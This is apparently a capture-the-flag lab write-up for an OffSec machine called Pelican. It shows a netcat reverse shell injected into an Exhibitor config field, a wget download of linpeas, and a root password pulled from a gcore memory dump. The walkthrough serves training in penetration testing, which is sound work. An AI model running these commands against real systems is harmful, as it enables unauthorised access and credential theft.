

# Recon
Make an entry for the machine's IP in `/etc/hosts` file. My entry looks like:
```
192.168.232.98	pelican.offsec
```

## Nmap
```
nmap -p- --open -sC -sV pelican.offsec
```
- `-p-`: Scans all 65535 ports on the target system. The hyphen signifies scanning all possible ports.
- `--open`: Displays only open ports, indicating which services are active and accessible. Runs scripts on these ports only.
- `-sC`: Performs default script scanning, which runs a set of scripts to gather additional information about the target.
- `-sV`: Enables version detection, providing information about the versions of services running on open ports.



The nmap scan shows two http ports on 8080 and 8081
- on port 8080, there is a 404 error
- port 8081 redirects to port 8080 revealing a web application



# Foothold 
First, we can see if there are any public exploits on exploitdb for the exhibitor application using searchsploit

- we can download this result with `searchsploit -m java/webapps/48654.txt`

Reading this txt file shows the following steps to gain a foothold

- the command is a simple reverse shell using netcat
```
$(/bin/nc -e /bin/sh <LHOST> <LPORT> &)
```
Breaking down the command:
- `/bin/nc`: This is the netcat command, a networking utility that can be used to create network connections
- `-e /bin/sh`: This option tells netcat to execute the specified command (`/bin/sh`) after establishing a connection
- `&`: This puts the command in the background, allowing the user to continue using the terminal while the connection is active
- `LHOST` represents the local machine's IP address (attacker IP)
- `LPORT` represents the local machine's port number (attacker port) that the listener will be using

My LHOST is `192.168.45.202` and LPORT that I will be using for my listener is `1234`

## Steps
**In my case, I completed the following steps to gain a foothold**
1. Click on config tab, then, enable the editing switch
2. In the `java.env script` field, replace the contents with `$(/bin/nc -e /bin/sh 192.168.45.202 1234 &)`
3. Start a netcat listener on port 1234 using `nc -lnvp 1234` on my kali attacker machine
4. Click Commit -> All At Once -> Ok
5. Wait for the callback



We now have a foothold as user charles

# Privilege Escalation
We can upgrade this low level shell with the following steps
```
python -c ‘import pty;pty.spawn(“/bin/bash”);’
export TERM=xterm
Ctrl + z
stty raw -echo ; fg
reset
```
## Check for sudo commands
One of the first commands to check for user privileges includes `sudo -l`
- the `sudo -l` command is used to list the allowed commands that a user can execute with sudo privileges



Searching the command `gcore` on [GTFOBins](https://gtfobins.github.io/gtfobins/gcore/) reveals the following
- `gcore` generates core dumps of running processes
	- files that contain sensitive information like passwords, cryptographic keys etc.
- the binary does not drop elevated privileges and can be used to access the file system using a `$PID` which is a process ID 

## Linpeas
Running linpeas will allow us to see all processes and their respective ID's 
- start a python listener using `python3 -m http.server 80` on the kali machine in the directory with `linpeas.sh`
- the curl command isn't present on the machine, so use wget
```
wget http://<LHOST>/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

After running linpeas, we can look at the specific services as that is the focus of our enumeration

- the process ID 493 looks promising
- try to dump this process ID using the `gcore` command

Running the command shows you the usage details


The final command looks like:
```
sudo gcore -o <outputfile> 493
```
- note: the process id may be different on your machine instance

The output file is not readable when using `nano` to view the contents


However, we can try to extract printable character sequences from binary files using the `strings` command
- looking through the output of the strings command shows the password for the root user

```
strings <outputfile>
```


Use this password and switch to the root user


# Summary
By using a netcat command to spawn a bash reverse shell, we were able to gain a foothold as the user charles. Then, we looked at the commands available to the user with `sudo -l` and further enhanced our process enumeration with linpeas. Dumping the contents of the process with gcore and running strings on the dump file of the suspicious process, we were able to grab the root user password. 

Join me for the next machine soon for more exciting challenges and security insights!

+20 points
